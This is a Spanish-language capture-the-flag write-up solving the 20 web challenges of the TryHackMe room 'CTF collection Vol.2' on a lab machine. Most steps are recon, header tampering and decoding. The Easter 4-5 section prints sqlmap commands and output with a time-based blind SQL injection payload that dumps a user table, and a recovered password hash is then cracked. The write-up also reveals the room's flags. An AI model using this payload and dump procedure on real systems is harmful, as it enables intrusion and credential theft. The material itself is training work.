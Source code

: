 ```yaml
---
layout: single
title: CTF collection Vol.2
excerpt: "Sharpening up your CTF skill with the collection. The second volume is about web-based CTF"
date: 2022-07-02
classes: wide
header:
  teaser: /assets/images/thm-writeup-ctf-vol2/ctf2_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - Burp Suite
  - Web
  - Reverse Shell
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-ctf-vol2/ctf2_logo.png)

- Link: <https://tryhackme.com/room/ctfcollectionvol2>

Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.

Now, deploy the machine and collect the eggs!

Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise

---

## Easter 1-> hint: (Check the robots)

Revisando el directorio **"robots.txt"** y en esta ruta encontramos el siguiente contenido:

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1.png)

Se observa que la fila final esta en sestema hexadecimal, cadena que decodificamos en <https://gchq.github.io/CyberChef/> obteniendo el **Easter 1**

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1-.png)

---

## Easter 2 -> <https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/>

Decodificamos la primera línea en cyberchef <https://gchq.github.io/CyberChef/> obteniendo el **Easter 2**, de acuerdo con la siguiente secuencia:

~~~cs
From Base64
URL Decode
From Base64
Remove whitespace
From Base64
Remove whitespace
From Base64
~~~

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag2.png)

Revisando el código de la página, se encuentra la bandera correspondiente:

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag3.png)

---

## Easter 3 -> **Directory buster with common.txt might help.**

Con base en la ayuda realizamos una búsqueda con **gobuster**:

~~~cs
gobuster dir -u http://10.10.174.164/ -w /usr/share/dirb/wordlists/common.txt
~~~

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4.png)

Revisamos el código de la página **/login** y encontramos el **Easter 3**:

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_1.png)

---

## Easter 4 -> **time-based sqli**

- Desde burpsuite, procedemos a capturar la petición **post** con datos aleatorios en los campos "Username" y "Password", guardamos esta petición con el nomnbre "post.txt"

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_A.png)



- Utilizamos **sqlmap** para encontrar el nombre de la base de datos ejecutamos el siguiente comando; **sqlmap -r post.txt --dbs**, como se observa a continuación:


~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt --dbs 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                   
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:15 /2022-07-10/

[11:34:15] [INFO] parsing HTTP request from 'post.txt'
[11:34:15] [INFO] resuming back-end DBMS 'mysql' 
[11:34:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[11:34:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 12.10 or 13.04 (Precise Pangolin or Raring Ringtail or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[11:34:15] [INFO] fetching database names
[11:34:15] [INFO] fetching number of databases
[11:34:15] [INFO] resumed: 4
[11:34:15] [INFO] resuming partial value: in
[11:34:15] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                            
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[11:34:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[11:34:56] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[11:35:07] [INFO] adjusting time delay to 2 seconds due to good response times
formation_schema
[11:37:08] [INFO] retrieved: THM_f0und_m3
[11:39:18] [INFO] retrieved: mysql
[11:39:59] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[11:42:17] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 11:42:17 /2022-07-10/
~~~

- En este punto, "Dumpeamos" las tablas base de datos con el siguiente comando: **sqlmap -r post.txt -D THM_f0und_m3 --tables** como se observa a continuación:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 --tables
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:02:15 /2022-07-10/

[12:02:15] [INFO] parsing HTTP request from 'post.txt'
[12:02:15] [INFO] resuming back-end DBMS 'mysql' 
[12:02:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[12:02:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[12:02:16] [INFO] fetching tables for database: 'THM_f0und_m3'
[12:02:16] [INFO] fetching number of tables for database 'THM_f0und_m3'
[12:02:16] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[12:02:23] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:02:37] [INFO] retrieved: 
[12:02:42] [INFO] adjusting time delay to 2 seconds due to good response times
nothing_inside
[12:04:41] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[12:05:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 12:05:12 /2022-07-10/
~~~

- Revisamos la estructura de la tabla "nothing_inside" con el comando: **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns**, con el siguiente resultado:

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:30:47 /2022-07-10/

[13:30:47] [INFO] parsing HTTP request from 'post.txt'
[13:30:47] [INFO] resuming back-end DBMS 'mysql' 
[13:30:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:30:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.10 or 12.04 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:30:48] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[13:30:48] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:30:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:31:12] [INFO] retrieved: 
[13:31:23] [INFO] adjusting time delay to 2 seconds due to good response times
Easter_4
[13:32:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[13:33:49] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:33:49 /2022-07-10/

- De acuerdo con el paso anterior, se encontró un solo campo **Easter_4**, el cual procedemos a "dumpear" con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:37:59 /2022-07-10/

[13:37:59] [INFO] parsing HTTP request from 'post.txt'
[13:37:59] [INFO] resuming back-end DBMS 'mysql' 
[13:37:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:37:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:37:59] [INFO] fetching SQL SELECT statement query output: 'select Easter_4 from nothing_inside'
[13:37:59] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:38:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:38:17] [INFO] retrieved: 
[13:38:27] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b055}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[13:41:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'


---
## Easter 5 -> **Another sqli**

- Trabajando con la misma base de datos del punto anterior y sabiendo que existe una tabla "user" procedemos a dumpearla con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user --columns**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:44:19 /2022-07-10/

[13:44:19] [INFO] parsing HTTP request from 'post.txt'
[13:44:19] [INFO] resuming back-end DBMS 'mysql' 
[13:44:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:44:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:44:20] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[13:44:20] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:44:27] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[13:45:13] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
[13:45:19] [INFO] retrieved: 
[13:45:24] [INFO] adjusting time delay to 2 seconds due to good response times
username
[13:46:19] [INFO] retrieved: varchar(30)
[13:47:45] [INFO] retrieved: password
[13:48:52] [INFO] retrieved: varchar(40)
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[13:50:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:50:18 /2022-07-10/

- Llegados a este punto procedemos a dumpear el contenido, con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:56:57 /2022-07-10/

[13:56:57] [INFO] parsing HTTP request from 'post.txt'
[13:56:57] [INFO] resuming back-end DBMS 'mysql' 
[13:56:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:56:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Precise Pangolin or Quantal Quetzal or Raring Ringtail)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[13:56:57] [INFO] fetching SQL SELECT statement query output: 'select username,password from user'
[13:56:57] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
[13:56:57] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:57:05] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[14:00:20] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
the SQL query provided can return 2 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> a
[14:00:37] [INFO] retrieved: 
[14:00:42] [INFO] adjusting time delay to 2 seconds due to good response times
DesKel
[14:01:31] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[14:05:41] [INFO] retrieved: Skidy
[14:06:20] [INFO] retrieved: He is a nice guy, say hello for me
select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me

[14:11:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 14:11:19 /2022-07-10/


- Crakeamos el hash;**DesKel, 05f3672ba34409136aa71b8d00070d1b** encontrado en -> <https://crackstation.net/> y obtenemos el siguiente resultado:

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag5.png)

- Con el usuario y contraseña encontrados en los puntos anteriores, procedemos a autenticarnos en la página "/login" y obtenemos la bandera correspondiente a este punto.

---

## Easter 6 -> **Look out for the response header.**

- Ejecutamos el siguiente comando; **curl -s 10.10.4.61 -D header.txt**

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# curl -s 10.10.4.61 -D header.txt
<!DOCTYPE html>
<html>
                <head>
                <title>360 No Scope!</title>
                <h1>Let's get party! Erm....mmmmmmmmmmm</h1>
                <script src="jquery-9.1.2.js"></script>
                 <style>
                        body {
                                background-image: url('static.gif');
                                }
                </style> 
                <img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/>
        </head>

        <body>
                <h2>DID you know: Banging your head against a wall for one hour burns 150 calories.</h2>
                                        <p><img src="who.gif"/></p>
                        <h2> Who are you? Did I invite you?</h2>
                        <hr><hr><hr><hr><hr><hr><hr>
        <p>Psst....psst.. hey dude.......do you have extra cash</p>
        <p>Please buy me one iphone 11....I'm poor, link down below.</p>
                        <h4>You need Safari 13 on iOS 13.1.2 to view this message. If you are rich enough</h4>
                <a href="https://www.apple.com/iphone-11/"><img src="iphone.jpg"/></a>
        <br><br>
        <img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/>
        <br>
        <h3>Spin me right now, spin me right now</h3>
        <h1>Ohhhhhh... Did you subsribe to Tryhackme? Is a great platform<h1>
        <h3>Thanks to them, I able to make this so call 'weird' room!!!!!!!<h3>
        <a href="/free_sub"><h2>Btw, I got a free gift for you, Perhaps a subscription voucher. Claim now!</h2></a>
        <hr><hr><hr><hr>
        <h3>Is dinner time boiiiiiiiii</h3>
        <img src="dinner.gif"/>
        <h2>Let see the menu, huh..............</h2>
        <form method="POST">
        <select name="dinner">
                 <option value="salad">salad</option>
                 <option value="chicken sandwich">chicken sandwich</option>
                 <option value="tyre">tyre</option>
                 <option value="DesKel">DesKel</option>
        </select>
         <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
        </form>

                <h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>...

~~~

- Listamos el archivo **header.txt** y encontramos la bandera 6:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# cat header.txt                  
HTTP/1.1 200 OK
Date: Sun, 10 Jul 2022 19:03:13 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

---

## Easter 7 -> **Cookie is delicious**

- Mediante Burp analizamos el "header" y encontramos una "kookie" con valor = 0:

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7.png)


- Enviamos esta petición al "repeater" y cambiamos el valor de la "kookie" = 1, enviamos la petición y encontramos "Easter 7":

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7_1.png)

---

## Easter 8 -> **Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1**

- De acuerdo con la pista, cambiamos el "User-Agent":

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8.png)


- Obteniendo la bandera correspondiente:

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8_1.png)


## Easter 9 -> **Something is redirected too fast. You need to capture it.**

- Con el siguiente comando encontramos el "Easter 9":


~~~bash
# curl http://10.10.4.61/ready/
<html>
        <head>
                <title>You just press it</title>
                <meta http-equiv="refresh" content="3;url=http:gone.php" />
                <p style="text-align:center"><img src="bye.gif"/></p>
                <!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{????????????} -->
        </head>

</html>

~~~

---

## Easter 10 -> **Look at THM URL without https:// and use it as a referrer.**

- Buscando "Tryhackme" en el código del "home", encontramos la siguiente ruta; **/fre_sub**:

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag9.png)

- Realizamos curl sobre esta ruta y encontramos el siguiente mensaje:

~~~bash
└─# curl http://10.10.4.61/free_sub/                 
only people came from tryhackme are allowed to claim the voucher.
~~~

- De acuerdo con la pista modificamos el "referer" utilizando "tryhackme.com" y encotramos el "Easter 10"

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag10.png)

ctf2_flag10.png

---

## Easter 11 -> ** Temper the html.**

- Revisamos en el "home" y encontramos este apartado "Is dinner time boiiiiiiiii" en el cual podemos escoger la cena, la respuesta al seleccionar "salad" es: **Mmmmmm... what a healthy choice, I prefer an egg**:


![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11.png)

- Enviamos la solicitud al "repeater" y modificamos el menu por "egg" y encontramos el "Easter 11"

![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11_1.png)

---

## Easter 12 -> **Fake js file**

- Buscando archivos ".js" en el código del home:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12.png)

- Como se observa en el código, existe el script: **jquery-9.1.2.js**, al cual nos dirigimos:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_1.png)

- Decodificamos el código "From Hex" en <<"https://gchq.github.io/CyberChef/>> y encontramos el "Easter 12":

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_2.png)

---

## Easter 13 -> **Fake js file**

- Al resolver "Easter 9" se consigue el "Easter 13":

![flag13](/assets/images/thm-writeup-ctf-vol2/ctf2_flag13.png)

---

## Easter 14 -> **Embed image code**

- Buscando en el código "Easter 14" y encontramos un código, como se observa a continuación:

![flag14](/assets/images/thm-writeup-ctf-vol2/ctf2_flag14_A.png)

- Desde cyberchef procedemos a descifrar desde base 64 y a renderizar la imagen y obtenemos el Easter 14:


![flag14](/assets/images/thm-writeup-ctf-vol2/ctf2_flag14.png)

---

## Easter 15 -> **Try guest the alphabet and the hash code**

- De acuerdo con la pista y desde burpsuite intentamos con todo el abcedario en minúscula y mayúscula como observamos a continuación:

![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15_1.png)


![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15.png)

a  b  c  d  e  f  g  h  i  j  k  l  m  n  o  p  q  r  s  t  u  v  w  x  y  z
---
89 90 91 92 93 94 95 41 42 43 75 76 77 78 79 80 81 10 11 12 13 14 15 16 17 18

A  B   C   D   E   F   G  H  I  J  K  L  M  N  O   P   Q   R   S   T   U   V   W   X   Y   Z
---
99 100 101 102 103 104 51 52 53 54 55 56 57 58 126 127 128 129 130 131 136 137 138 139 140 141

- Con esta información procedemos a descifrar: hints: 51 89 77 93 126 14 93 10 obteniendo:

51 89 77 93 126 14 93 10
---
G  a  m  e  O   v  e  r

![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15_2.png)

---

## Easter 16 -> **Make all inputs into one form.**

- Desde "game2" capturamos la petición de presionar "Button 1" y obtenemos la siguiente respuesta:

![flag16](/assets/images/thm-writeup-ctf-vol2/ctf2_flag16.png)


- Con base en lo anterior unimos las tres peticiones con la siguiente petición "button1=button1&button2=button2&button3=button3&submit=submit", como se observa a continuación obteniendo el "Easter 16":

![flag16](/assets/images/thm-writeup-ctf-vol2/ctf2_flag16_1.png)

---

## Easter 17 -> **bin -> dec -> hex -> ascii**

- Con el siguiente código en **python** obtenemos el "Easter 17":

![flag17](/assets/images/thm-writeup-ctf-vol2/ctf2_flag17.png)


~~~python
#bin -> dec -> hex -> ascii
binary = "100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101"
decimal = int(binary, 2)
print (decimal)
hexa = hex(decimal) [2:]
print (hexa)
print (bytes.fromhex(hexa).decode("ASCII"))
~~~

---

## Easter 18 -> **Request header. Format is egg:Yes**

- Modificamos la solicitud como se observa a continuación:

![flag18](/assets/images/thm-writeup-ctf-vol2/ctf2_flag18.png)

---

## Easter 19 -> **A thick dark line**

- Buscando en el código imagenes, encontramos "small.png" e ingresamos a esta, obteniendo el "easter 19"

![flag19](/assets/images/thm-writeup-ctf-vol2/ctf2_flag19.png)
![flag19](/assets/images/thm-writeup-ctf-vol2/ctf2_flag19_1.png)

---

## Easter 20 -> **You need to POST the data instead of GET. Burp suite or curl might help.**

- Revisando en el código "Easter 20" encontramos un usuario y contraseña, que cambiando el método de solicitud en "burp" de get a post y agregando la siguiente línea "username=DesKel&password=heIsDumb).", obtenemos el "Easter 20":

![flag20](/assets/images/thm-writeup-ctf-vol2/ctf2_flag20.png)

---

## Fuentes

- Cyberchef:
<https://gchq.github.io/CyberChef/>

- Writeup:
<https://www.aldeid.com/wiki/TryHackMe-CTF-collection-Vol2>

- Crackstation:
<https://crackstation.net/>